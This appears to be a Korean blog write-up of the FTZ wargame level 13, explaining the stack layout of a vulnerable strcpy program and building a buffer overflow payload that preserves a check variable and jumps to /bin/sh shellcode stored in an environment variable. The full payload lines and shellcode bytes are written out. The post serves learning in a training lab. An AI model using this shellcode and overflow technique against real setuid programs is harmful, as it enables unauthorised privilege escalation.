 ```yaml
---
title:  "[FTZ] level 13"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-17 23:52:40

---
```


# level 13

**level13 / have no clue**

힌트

![image](https://user-images.githubusercontent.com/69203345/146544043-462d8911-ca49-4a67-b3c4-314b640bcaae.png)

생긴걸 보아하니 이전 문제처럼 bof이용 해주면 될듯  
그래도 급하게 할 필요 없기 때문에 코드부터 봅시다

i가 buf보다 먼저 선언됐으므로 i의 시작주소가 buf보다 높다.

4바이트 정수형 변수 i에 0x1234567을 저장  
문자형 buf에는 1024사이즈 할당  0x1234567을 할당  
3094는 level13의 PID  
argv에 할당받은 입력이 한개를 넘으면 if수행  
argv[1] 을 buf에 복사

변수 i값이 아니라면 if수행  
print 수행후 프로그램 종료  

/tmp 폴더로 복사해서 gdb로 열기

![image](https://user-images.githubusercontent.com/69203345/146546755-d6a68c12-7746-4569-88f6-b812816bfe54.png)

올게 왔다

0x080484a3 <main+3>:    sub    esp,0x418

0x418을 10진수로 바꾸게 되면 1048이 나오고  
stack에 1048byte의 영역을 할당

0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12], 0x1234567

i의 시작위치 = ebp -12
i에게 12바이트를 할당 했는데 i는 long형태로 4바이트만 차지하고,나머지 8바이트는 dummy

0x080484b0 <main+16>:   sub    esp,0x8

스택에 총 8byte를 할당합니다. 이번문장은 dummy를 의미함

0x080484dd <main+61>:   call   0x8048390  <strcpy>

buf의 시작 위치는 ebp - 1048입니다

낮은주소

buf[1024] [ebp-1048]
dummy[12]
i[4] [ebp-12]
dummy[8]
sfp[4]
ret[4]

높은주소

buf의 주소는 ebp-1048이고  
i의 주소는 ebp-12이므로  
1048에서 1024를 채운후 i(ebp-12)와의 빈 공간은 dummy(12)로 한다


>참고  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.

그러면 buf[1024] 와 dummy[12]를 A로 채워주고, i를 01234567로 채워주고, dummy[8]과 SFP[4]를 다시 A로 채워주고 리턴주소를 덮어주면 될 것 같습니다.
 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"RETN"'`

 이 될것이다

 이제 그럼 환경변수를 등록
 > export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>echo 'int main(){printf("ADDR->0x%x\n",getenv("EGG"));}'> getenv.c

 ./getenv를 실행시켰을 때 나오는 ADDR이 페이로드를 구성할 때 return 부분에 들어가는 주소

 ![image](https://user-images.githubusercontent.com/69203345/146562331-92c66527-4c2f-4df1-b9c0-7fac299c986a.png)

 주소는 0xbffffc9a  
 따라서

 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x9a\xfc\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146564363-3aea097f-89e4-4245-b611-4314f8c32272.png)

 풀면 풀수록 감이 온다..!